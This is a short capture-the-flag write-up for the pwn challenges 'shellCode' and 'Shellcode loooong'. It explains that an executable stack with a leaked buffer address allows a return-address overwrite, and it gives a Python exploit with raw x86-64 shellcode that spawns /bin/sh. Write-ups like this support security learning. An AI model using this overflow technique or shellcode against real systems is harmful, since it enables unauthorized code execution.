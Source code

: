 ## shellCode (477pt) & Shellcode loooong (495pt)					

### Description

> I dont like long long shellcodes keep them short and crispy 
>
> nc 35.238.225.156 1008 
>
> Author: TheBadGuy


### Attachment

[shellcode](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/boot2root/pwn/shellcode/shellcode), [shellcode](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/boot2root/pwn/shellcode/short)

### Analysis

no canary, stack is executable and `buf` address is leaked, so we can jump to `shellcode` in the `buf`


### Solution

```python
ru('ed to[')
buf = int(ru(']'),16)

sc = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"

offset = 24
payload = 'A'*offset
payload += p64(buf+24+8)
payload += sc

sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/boot2root/pwn/shellcode) 


